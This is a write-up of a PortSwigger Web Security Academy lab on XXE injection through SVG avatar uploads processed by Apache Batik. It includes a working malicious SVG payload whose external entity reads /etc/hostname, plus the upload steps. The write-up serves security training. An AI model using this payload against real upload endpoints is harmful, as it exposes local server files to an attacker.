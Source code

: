 
### 📁 `README.md` — Exploiting XXE via SVG Image Upload

# 🖼️ Exploiting XXE via Image File Upload (SVG)

**🧪 Lab Level:** Practitioner  
**🔐 Vulnerability:** XXE in SVG image processed by Apache Batik  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Leak the contents of `/etc/hostname` by uploading a malicious SVG avatar image.

---

## 🔍 Lab Summary

The application allows users to upload avatar images in SVG format.  
It uses the **Apache Batik** library to process SVGs.  
The lab is vulnerable to **XXE via the SVG file**, enabling reading of local files like `/etc/hostname`.

---

## ⚙️ Exploitation Steps

### 1. 📝 Create the Malicious SVG

Save this payload as `exploit.svg` locally:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
````

---

### 2. 📤 Upload the SVG

* Post a comment on any blog post
* Upload `exploit.svg` as your avatar image

---

### 3. 👀 Verify the Output

View your comment:
You should see the **contents of `/etc/hostname` rendered as text inside the image**.

---

### 4. 🏁 Submit the Solution

Use the displayed hostname value from the image and submit it using the lab’s **“Submit solution”** button.
---

## 📸 Screenshots

Here are some screenshots demonstrating the successful exploitation of the XXE via SVG image upload lab:

![XXE](https://github.com/Kabilala/xxe/blob/main/lab8-1/lab8-1.png)

![XXE](https://github.com/Kabilala/xxe/blob/main/lab8-2/lab8-2.png)

---

## 🧠 Technical Details

| Feature                | Explanation                                        |
| ---------------------- | -------------------------------------------------- |
| `<!ENTITY xxe SYSTEM>` | Loads local file `/etc/hostname`                   |
| SVG with DOCTYPE       | Defines the external entity for XXE injection      |
| `<text>` element       | Renders the entity content visibly in SVG          |
| Apache Batik           | XML parser vulnerable to external entity expansion |

---
